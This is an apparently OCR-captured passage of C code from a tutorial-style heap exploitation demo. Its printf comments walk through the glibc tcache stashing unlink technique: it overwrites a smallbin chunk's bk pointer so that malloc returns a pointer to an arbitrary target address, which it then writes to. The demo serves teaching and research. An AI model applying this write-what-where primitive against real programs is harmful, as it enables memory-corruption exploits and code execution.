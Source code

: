 ```
    for(int i=0; i&lt;5; i++)`{`
        t1 = calloc(1, 0x50);
        free(t1);
    `}`

    printf("Now, the tcache_entry[4] list is %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p\n", 
        t1, t1-0x60, t1-0x60*2, t1-0x60*3, t1-0x60*4);

    printf("\n4. free two chunk with the same size like tcache_entry into the corresponding smallbin\n");

    s1 = malloc(0x420);
    printf("Alloc a chunk %p, whose size is beyond tcache size threshold\n", s1);
    pad = malloc(0x20);
    printf("Alloc a padding chunk, avoid %p to merge to top chunk\n", s1);
    free(s1);
    printf("Free chunk %p to unsortedbin\n", s1);
    malloc(0x3c0);
    printf("Alloc a calculated size, make the rest chunk size in unsortedbin is 0x60\n");
    malloc(0x100);
    printf("Alloc a chunk whose size is larger than rest chunk size in unsortedbin, that will trigger chunk to other bins like smallbins\n");
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s1+0x3c0);

    printf("Repeat the above steps, and free another chunk into corresponding smallbin\n");
    printf("A little difference, notice the twice pad chunk size must be larger than 0x60, or you will destroy first chunk in smallbin[4]\n");
    s2 = malloc(0x420);
    pad = malloc(0x80);
    free(s2);
    malloc(0x3c0);
    malloc(0x100);
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s2+0x3c0);
    printf("smallbin[4] list is %p &lt;--&gt; %p\n", s2+0x3c0, s1+0x3c0);

    printf("\n5. overwrite the first chunk in smallbin[4]'s bk pointer to &amp;victim-0x10 address, the first chunk is smallbin[4]-&gt;fd\n");
    printf("Change %p's bk pointer to &amp;victim-0x10 address: 0x%lx\n", s2+0x3c0, (uint64_t)(&amp;victim)-0x10);
    *(uint64_t*)((s2+0x3c0)+0x18) = (uint64_t)(&amp;victim)-0x10;

    printf("\n6. use calloc to apply to smallbin[4], it will trigger stash mechanism in smallbin.\n");

    calloc(1, 0x50);
    printf("Now, the tcache_entry[4] list is %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p\n", 
        &amp;victim, s2+0x3d0, t1, t1-0x60, t1-0x60*2, t1-0x60*3, t1-0x60*4);

    printf("Apply to tcache_entry[4], you can get a pointer to victim address\n");

    uint64_t *r = (uint64_t*)malloc(0x50);
    r[0] = 0xaa;
    r[1] = 0xbb;
    r[2] = 0xcc;
    r[3] = 0xdd;

    printf("victim's vaule: [0x%lx, 0x%lx, 0x%lx, 0x%lx]\n", 
        victim[0], victim[1], victim[2], victim[3]);

    return 0;
`}`
```